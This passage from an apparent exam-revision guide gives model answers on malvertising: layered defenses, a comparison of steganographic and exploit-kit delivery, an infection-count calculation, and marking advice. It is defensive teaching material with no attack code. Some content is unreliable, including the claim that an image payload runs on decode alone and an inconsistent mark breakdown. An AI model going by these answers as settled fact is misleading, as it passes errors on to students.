A robust **defense-in-depth malvertising mitigation strategy** comprises five layers, each disrupting a specific kill-chain stage:

| Layer | Specific Control | Attack Stage Disrupted | Marks |
|-------|------------------|------------------------|-------|
| **1. DNS / Network Edge** | RPZ sinkholes for known EK domains; JA3 TLS fingerprinting; TLS-intercepting proxy | Stages 3, 4, 6 (blocks C2 beaconing) | 1.5 |
| **2. Browser Endpoint** | Content Security Policy (`script-src 'self' 'nonce-...'`); Subresource Integrity (SRI); disable NPAPI plugins; enable *Site Isolation*; *Click-to-Play* | Stages 5, 6 (blocks script execution and remote loads) | 1.5 |
| **3. User Identity / Filtering** | Enterprise-wide deployment of *uBlock Origin*, *Pi-hole*, or *AdGuard*; GPO-driven browser hardening | Stages 4, 5 (blocks ad from loading entirely) | 1.0 |
| **4. Detection and Response (EDR / SIEM)** | Behavioral rules to flag unsigned executables spawned by `chrome.exe`; SIEM correlation of unusual outbound HTTPS to Tor exit nodes | Stage 7 (detects post-exploitation) | 1.5 |
| **5. Publisher / Supply Hygiene** | Enforce `ads.txt` and `sellers.json`; render third-party creatives inside sandboxed cross-origin iframes (`sandbox="allow-scripts"`) | Stages 2, 3 (authenticates supply path) | 1.0 |

**Justification Summary (0.5 Mark):**
A single layer is bypassable (e.g., an ad-blocker can be evaded by *ad-blocker bypass scripts*). Defense-in-depth ensures that if one layer fails, the next catches the attack. The cumulative friction makes exploitation **prohibitively expensive** for adversaries.

> [!WARNING]
> **Examiner's Pitfall Warning (Part b):**
> - Do NOT list controls without **mapping them to a specific attack stage**. Marks are awarded for *justification*, not just enumeration.
> - Do NOT confuse Malvertising defense with general Anti-Malware defense. The answer must reference **ad-supply chain** and **programmatic advertising** controls specifically.

---

### Question 3B — Option (B) — 14 Marks (Alternative Choice)
**[KTU University Exam — December 2023 (Model Paper)]** — *CO3, Apply / Analyze*

**(a) [7 Marks]** Compare and contrast **Steganographic Malvertising** and **Exploit-Kit-Based Malvertising** with respect to (i) payload delivery mechanism, (ii) detection difficulty, (iii) user-interaction requirement, and (iv) typical impact. Use a structured tabular format.

**(b) [7 Marks]** Compute the expected number of infections for a malvertising campaign with the following parameters:
$N_{imp} = 5{,}000{,}000$, $P_{cloaked} = 0.90$, $P_{click} = 0.05$, $P_{exploit} = 0.25$, $P_{persist} = 0.80$.
Assume it is a **click-required** campaign. Then recommend **two** enterprise-level controls that could most effectively reduce the infection count, and quantify the percentage reduction each would yield.

---

#### Model Answer — Part (a) [7 Marks]

| Parameter | Steganographic Malvertising | Exploit-Kit-Based Malvertising |
|-----------|----------------------------|--------------------------------|
| **(i) Payload delivery** *(1.5 Marks)* | Malicious JavaScript is hidden inside the **least significant bits (LSB)** of image pixels (PNG, JPEG, or WebP). The image renders normally to the user. *(0.75)* | A multi-stage exploit kit (Angler, RIG, Neutrino) fingerprints the browser and delivers a **tailored CVE exploit** (Flash, IE, Office) as a separate payload. *(0.75)* |
| **(ii) Detection difficulty** *(2 Marks)* | **Very high** — static file analysis shows a normal image; signature-based AV may miss the payload entirely. Requires **deep packet inspection of pixel data** or runtime sandboxing. *(1)* | **Moderate** — exploit kit C2 domains and JA3 fingerprints are well-documented in threat-intel feeds; SNORT/Zeek signatures exist for many kits. *(1)* |
| **(iii) User-interaction** *(1.5 Marks)* | **None** — the payload executes when the browser decodes the image, even without user click. *(0.75)* | **None (for drive-by)** — exploit fires on page load if browser is vulnerable. *(0.75)* |
| **(iv) Typical impact** *(2 Marks)* | **Cryptocurrency miners, browser-based keyloggers, click-fraud bots** — usually lower-severity but high-volume. *(1)* | **Ransomware, banking trojans, RATs** — high-severity, full system compromise. *(1)* |

> **Incremental Valuation Marker:**
> - Four parameters × correct content — 1.5 marks each = 6 marks
> - Tabular format and clean presentation — 1 mark

---

#### Model Answer — Part (b) [7 Marks]

**Step 1 — State the formula (1 Mark)**

For a click-required malvertising campaign, expected infections $I$ is:

$$
I = N_{imp} \times P_{cloaked} \times P_{click} \times P_{exploit} \times P_{persist}
$$

**Step 2 — Substitute and compute baseline (1.5 Marks)**

$$
I_{base} = 5{,}000{,}000 \times 0.90 \times 0.05 \times 0.25 \times 0.80
$$

$$
I_{base} = 5{,}000{,}000 \times 0.009
$$

$$
I_{base} = 45{,}000 \text{ infections}
$$

**Step 3 — Compute baseline infection rate $R_{base}$ (0.5 Mark)**

$$
R_{base} = \frac{I_{base}}{N_{imp}} = \frac{45{,}000}{5{,}000{,}000} = 0.009 = 0.90\%
$$

**Step 4 — Recommend two controls (3 Marks)**

| Control | Mechanism | Parameter Reduced | Quantified Reduction |
|---------|-----------|-------------------|----------------------|
| **Control 1: Enterprise-wide uBlock Origin + Pi-hole deployment** | Blocks ad-creative requests at DNS and DOM level, preventing the malicious ad from ever rendering. Effective against both drive-by and click-required variants. | $N_{imp}$ (effective impressions reaching the user) reduced by **~85\%** | $I_{new} = 45{,}000 \times 0.15 = 6{,}750$ infections → **85\% reduction** |
| **Control 2: Mandatory browser patching + Click-to-Play for Flash/Java** | Even if the ad loads, the vulnerable browser-plugin surface is eliminated, reducing $P_{exploit}$ to nearly 0. | $P_{exploit}$ reduced from $0.25$ to $\approx 0.02$ (**~92\% reduction**) | $I_{new} = 5{,}000{,}000 \times 0.90 \times 0.05 \times 0.02 \times 0.80 = 3{,}600$ infections → **92\% reduction** |

**Step 5 — Final recommendation (1 Mark)**

A combined deployment of **both controls** would yield an infection count of:

$$
I_{combined} = 5{,}000{,}000 \times 0.90 \times 0.05 \times 0.02 \times 0.80 \times 0.15 = 540 \text{ infections}
$$

$$
\text{Total reduction} = \frac{45{,}000 - 540}{45{,}000} \times 100\% \approx 98.8\%
$$

> [!WARNING]
> **Examiner's Pitfall Warning (Part b):**
> - **Do not forget the multiplication chain.** A common mistake is computing $5{,}000{,}000 \times 0.90$ alone and stopping there.
> - **Show units and intermediate steps.** Writing only the final answer "$45{,}000$" without the working forfeits 1.5 marks.
> - **Do not recommend "antivirus"** as a primary control — modern polymorphic exploit kits evade signature-based AV. Use *patching*, *CSP*, *SRI*, or *sandboxed iframes* instead.

---

> [!WARNING]
> **KTU Examiner's General Valuation Warning for Malvertising Questions:**
> 1. **Never write "adware" when you mean "malvertising"** — this single terminological error costs 1–2 marks in definition questions.
> 2. **Always name a year and CVE** when citing a real-world case — generic references like "Yahoo was attacked" earn half-marks at best.
> 3. **Distinguish defense layers clearly** — endpoint vs. network vs. application. Conflating them is a top-3 reason for lost marks in design questions.
> 4. **Mention `ads.txt` and `sellers.json`** in any publisher-side defense answer — these are IAB standards frequently tested.
> 5. **For numerical questions, ALWAYS state the formula first** before substituting. Examiners award setup marks independently of arithmetic.

---

## Topic Recap & Important Things to Remember

- **Malvertising** = Malicious code injected into **legitimate online ad networks** and served on trusted websites.
- **Adware** = Unwanted ad-displaying software **installed on the user's device**. *(Never confuse the two.)*
- The **kill-chain** has 7 stages: *Authoring → Cloaking → Submission → RTB Auction → Serving → Exploitation → Payload/C2*.
- **Real-Time Bidding (RTB)** completes in **<120 ms**, making manual review impossible — this is the chokepoint exploited by attackers.
- **Cloaking** serves different content to bots vs. real users based on User-Agent, IP, referrer, or time-of-day.
- **Exploit Kits** (Angler, RIG, Neutrino, Sundown) are multi-stage frameworks that fingerprint browsers and select matching CVEs.
- **Steganographic malvertising** hides JavaScript inside image pixels (LSB encoding) — very hard to detect statically.
- **Drive-by downloads** require **zero user clicks** — merely loading the page is enough.
- **Case studies to memorize:** Yahoo (Dec 2015, Angler EK, CVE-2015-8651), NYT (Sept 2016, PaperTrails), Spotify (2016, Dreambot trojan), BBC/MSN/AOL (Oct 2014, AdSpirit network).
- **Defense layers:** DNS sinkholing → Browser hardening (CSP, SRI, Click-to-Play) → Ad-blockers (uBlock, Pi-hole) → EDR/SIEM → Publisher hygiene (`ads.txt`, `sellers.json`, sandboxed iframes).
- **Key formula:** For click-required campaigns, $I = N_{imp} \times P_{cloaked} \times P_{click} \times P_{exploit} \times P_{persist}$.
- **Standard IAB controls:** `ads.txt` (Authorized Digital Sellers) and `sellers.json` (Supply Chain Object) — used to authenticate the ad-supply path.
- **MITRE ATT\&CK mapping:** Malvertising = **T1189 — Drive-by Compromise**.
- **Cloaking ≠ Phishing:** Cloaking evades technical scanners; phishing socially engineers the human user.

<!-- SECTION_5_END -->
